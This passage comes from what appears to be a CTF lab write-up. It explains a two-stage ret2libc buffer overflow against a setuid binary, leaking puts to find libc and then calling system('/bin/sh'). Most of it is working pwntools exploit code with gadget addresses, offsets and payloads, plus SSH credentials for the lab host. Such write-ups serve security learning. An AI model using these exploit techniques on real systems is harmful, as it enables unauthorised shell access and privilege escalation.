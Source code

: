 Turns out, the offsets gained from readelf indicates the offset to the libc base, which is the lowest address in which the libc is loaded. It's an address that always end in three 0's, (since linux memory pages are 4 KBs in size -> 2^12). We can calculate the libc base address by subtracting the leaked puts() address with the offset of puts, and then get the address of system by adding the system_offset to the calculated libc base. The same is done for the /bin/sh string:

```python=
puts = u64(sh.recv(6).ljust(8, '\x00'))
libc_base = puts - puts_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

log.success("Address of puts in libc: " + hex(puts))
log.success("Address of libc base: " + hex(libc_base))
log.success("Address of system in libc: " + hex(system))
log.success("Address of binsh string in libc: " + hex(binsh))
```

Alright, time for stage 2! Since we returned back to auth(), we can fill the buffer up using 136 A's again! We'll overwrite the return address with the pop rdi; ret gadget, except this time our parameter is the address of the /bin/sh string instead. Our next address is the address of system, and so after the parameter is set, we essentially call system("/bin/sh"), giving us a shell!

```python=
payload = "B"*136
payload += p64(pop_rdi_gadget)
payload += p64(binsh)
payload += p64(system)

sh.sendline(payload)
sh.interactive()
```

Our exploit.py script so far is as follows:
```python
from pwn import *

#Define global vars below:
pop_rdi_gadget = 0x40179b
puts_got = 0x404028
puts_plt = 0x401050
auth = 0x401513

login = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
sh = login.process('/usr/bin/garbage')
puts_offset = 0x809c0
system_offset = 0x4f440
binsh_offset = 0x1b3e9a


payload = "A"*136
payload += p64(pop_rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(auth)

sh.sendline(payload)
sh.recvline()
sh.recvline()

puts = u64(sh.recv(6).ljust(8, '\x00'))
libc_base = puts - puts_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

log.success("Address of puts in libc: " + hex(puts))
```